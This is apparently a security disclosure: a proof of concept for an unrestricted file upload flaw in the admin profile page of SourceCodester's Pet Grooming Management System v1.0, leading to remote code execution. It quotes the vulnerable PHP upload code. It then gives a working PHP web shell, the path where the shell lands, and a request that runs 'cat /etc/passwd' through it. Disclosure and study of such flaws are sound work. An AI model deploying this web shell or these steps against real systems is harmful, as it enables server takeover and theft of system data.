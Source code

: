 # Proof of Concept – Unrestricted File Upload in Pet Grooming Management System (RCE)
### Summary

The Pet Grooming Management System contains an Unrestricted File Upload vulnerability in the admin/profile.php module.
An authenticated attacker can upload arbitrary files, including PHP code, instead of restricted image files. This results in Remote Code Execution (RCE) on the hosting server.

**Product:** [Pet Grooming Management v.1](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)
</br>
**Vendor:** [SourceCodester](https://www.sourcecodester.com)
</br>
**Vulnerable File:** ``admin/profile.php``
</br>
**Version:** V1.0
</br>

**Evidence:**
![](./evidence1.png)


### Root Cause
The application only applies client-side restrictions (accept="image/jpeg/png") and does not enforce proper server-side validation of uploaded files.
The following code demonstrates the weakness:

```php
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
$image = $target_dir . basename($_FILES["website_image"]["name"]);

if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
    @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
}
```


**❌ No server-side verification of extension, MIME type, or file content is performed.**

---

## Exploitation Proof of Concept
### Step 1 – Upload Payload

Submit the following file via the Profile Update form (website_image parameter):
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
![](./Step1Upload.png)


### Step 2 – Locate File

The file is written to:
```php
/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php
```

Accessible at:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php```


![](./Step2FileLocation.png)

### Step 3 – Remote Command Execution

Request the uploaded file with the cmd parameter:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=cat /etc/passwd```

### Example Output:

![](./evidence2.png)

